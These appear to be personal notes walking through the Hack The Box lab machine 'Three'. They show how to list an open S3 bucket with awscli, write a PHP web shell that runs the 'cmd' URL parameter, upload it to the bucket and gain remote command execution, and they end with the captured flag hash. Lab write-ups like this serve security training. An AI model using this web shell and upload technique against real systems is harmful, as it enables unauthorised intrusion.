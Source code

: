 From Starting point **Three** machine HTB

# access AWS S3 Buckets
https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html
apt install awscli
First, we need to configure it using the following command.
```
aws configure
```
![[Pasted image 20221117230805.png]]

We can list all of the S3 buckets hosted by the server by using the ls command.

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```
We can also use the ls command to list objects and common prefixes under the specified bucket
```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

If website is running on php and on S3 bucket we can upload php shell to the bucket and access it through the website
We can use the following PHP one-liner which uses the system() function which takes the URL parameter cmd as an input and executes it as a system command.

```php
<?php system($_GET["cmd"]); ?>
```
Let's create a PHP file to upload.
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
now we can verify that it works by accessing the page 
![[Pasted image 20221117231308.png]]
and it's working all we need to do now is add ?cmd=COMMAND and we have RCE on the machine
a980d99281a28d638ac68b9bf9453c2b
